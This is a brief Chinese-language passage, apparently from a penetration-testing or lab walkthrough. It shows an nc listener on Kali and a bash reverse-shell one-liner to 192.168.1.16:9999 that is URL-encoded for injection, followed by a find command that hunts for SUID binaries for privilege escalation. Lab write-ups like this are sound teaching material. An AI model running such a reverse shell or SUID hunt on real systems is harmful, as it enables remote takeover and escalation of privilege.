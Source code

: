 

尝试进行一个反弹`shell`

在kali上开启监听

```shell
nc -lvvp 9999
echo "bash -i >& /dev/tcp/192.168.1.16/9999 0>&1" | bash
然后把上面的echo一串进行URL编码处理
```

![](./pic-1/14.jpg)



## 提权

使用`find`查看有无可用的SUID权限

```shell
find / -perm -u=s -type f 2>/dev/null
```
